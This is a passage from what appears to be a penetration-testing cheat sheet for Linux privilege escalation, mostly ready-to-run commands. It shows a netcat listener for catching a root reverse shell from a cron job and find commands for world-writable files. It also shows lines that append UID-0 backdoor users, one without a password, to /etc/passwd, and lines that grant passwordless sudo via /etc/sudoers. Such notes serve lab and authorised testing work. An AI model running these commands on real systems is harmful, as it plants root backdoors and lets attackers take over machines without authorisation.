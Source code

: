 Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.

nc -nvlp 4444
&nbsp;


## Writable files

List world writable files on the system.

```
find / -writable ! -user \`whoami\` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
```
```
find / -perm -2 -type f 2>/dev/null
```
```
find / ! -path "*/proc/*" -perm -2 -type f -print 2>/dev/null
```

### WRITABLE /ETC/PASSWD

First generate a password with one of the following commands.

```
openssl passwd -1 -salt hack hack
mkpasswd -m SHA-512 hack
python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
```

Then add the user  `hack`  and add the generated password.

```
hack:GENERATED_PASSWORD_HERE:0:0:Hack:/root:/bin/bash
```

E.g:  `hack:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hack:/root:/bin/bash`

You can now use the  `su`  command with  `hack:hack`

Alternatively you can use the following lines to add a dummy user without a password.  
WARNING: you might degrade the current security of the machine.

```
echo 'dummy::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy

```



### WRITABLE /ETC/SUDOERS

```
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers

```
&nbsp;
